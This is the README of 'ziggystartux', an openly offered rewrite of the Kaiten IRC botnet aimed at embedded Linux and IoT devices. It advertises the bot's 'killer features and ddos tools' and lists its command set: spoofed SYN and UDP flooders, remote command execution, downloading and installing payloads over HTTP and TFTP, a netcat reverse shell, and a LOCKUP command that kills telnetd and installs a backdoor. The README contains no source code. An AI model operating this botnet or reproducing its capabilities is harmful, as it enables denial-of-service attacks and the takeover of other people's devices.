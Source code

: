 # ziggystartux
A Kaiten rewrite, with much new functionality, and many fixes for the old stuff! Tailored toward embedded Linux devices, because... well, the internet of things of the new frontier!
<code>

   oooooo  o                      .oPYo.  o             ooooo                 
      d'                         8       8               8                    
     d'  o8 .oPYo. .oPYo. o    o `Yooo. o8P.oPYo. oPYo.  8  o    o `o  o'     
    d'    8 8    8 8    8 8    8     `8  8 .oooo8 8  `'  8  8    8  `bd'      
   d'     8 8    8 8    8 8    8      8  8 8    8 8      8  8    8  d'`b      
  dooooo  8 `YooP8 `YooP8 `YooP8 `YooP'  8 `YooP8 8      8  `YooP' o'  `o     
 .......:..:....8 :....8 :....8 :.....::..:.....:..:::::..::.....:..:::..     
 ::::::::::::ooP'.::ooP'.::ooP'.:::::::::::::::::::::::::::::::::::::::::     
 ::::::::::::...::::...::::...:::::::::::::::::::::::::::::::::::::::::::     
  
  This is a remake of Kaiten, hacked together from various versions scattered 
  throughout cyberspace. New features include a variety of awesome shell one- 
  liners, ability to upgrade the bot over http (via gcc or static binary), a  
  feature called "HackPkg" that installs binaries without dependencies like   
  wget or tftp, and more! Tip: run GETBB <tftp ip> first to get the most out  
  of this bot (it will install to /var/bin, which is almost always writable). 
  The LOCKUP command will kill telnetd and run a backdoor of your choice (for 
  simplicity we assume you will run it on port 23). This bot is updated often,
  so check back frequently for new killer features and ddos tools. In memory  
  of David Bowie, because he was an awesome musician and passed during the    
  early development of this bot. By ShellzRuS and all the other developers    
  that have worked on Kaiten over the last 20 years.                          
                                                                              
         "Hacking on kaiten is a right of passage" --Kod                      
 
    This is a IRC based distributed denial of service client.  It connects to 
  the server specified below and accepts commands via the channel specified.  
  The syntax is:                                                              
        !<nick> <command>                                                     
  You send this message to the channel that is defined later in this code.    
  Where <nick> is the nickname of the client (which can include wildcards)    
  and the command is the command that should be sent.  For example, if you   
  want to tell all the clients with the nickname starting with N, to send you 
  the help message, you type in the channel:                                  
        !N HELP                                                              
  That will send you a list of all the commands.  You can also specify an     
  astrick alone to make all client do a specific command:                     
        ! SH uname -a                                                        
  There are a number of commands that can be sent to the client:              
        PAN <target> <port> <secs>    = A SYN flooder                         
        UDP <target> <port> <secs>    = An UDP flooder                        
        UNKNOWN <target> <secs>       = Another non-spoof udp flooder         
        NICK <nick>                   = Changes the nick of the client        
        SERVER <server>               = Changes servers                       
        GETSPOOFS                     = Gets the current spoofing             
        SPOOFS <subnet>               = Changes spoofing to a subnet          
        DISABLE                       = Disables all packeting from this bot  
        ENABLE                        = Enables all packeting from this bot   
        KILL                          = Kills Ziggy                           
        GET <http address> <save as>  = Downloads a file off the web          
        VERSION                       = Requests version of bot               
        KILLALL                       = Kills all current packeting          
        HELP                          = Displays this                         
        IRC <command>                 = Sends this command to the server      
        SH <command>                  = Executes a command                    
        ISH <command>                 = "Interactive" SH, send to channel     
        BASH <command>                = Run a bash command                    
        SHD <command>                 = Daemonize command                     
        UPDATE <http://server/bot>    = Update this bot                       
        HACKPKG <http://server/bin>   = Install binary (no dependencies)      
        INSTALL <http://server/bin>   = Install binary (via wget)             
        BINUPDATE <http://server/bin> = Update a binary (via wget)            
        SCAN <nmap opts>              = Call an nmap wrapper script           
        GETSSH <http:serverdropbear>  = Install dropbear, run on port 30022   
        RSHELL <ip port>              = Equates to nohup nc ip port           
        GETBB <tftp server>           = Get a proper busybox (via tftp)       
        LOCKUP <http://server/bin>    = Kill telnet, install a backdoor!      
                                                                              
  Remember, all these commands must be prefixed by a ! and the nickname that  
  you want the command to be sent to (can include wildcards). There are no    
  spaces in between the ! and the nickname, and there are no spaces before    
  the !                                                                       
                                                                              
                                - contem on efnet                             
</code>

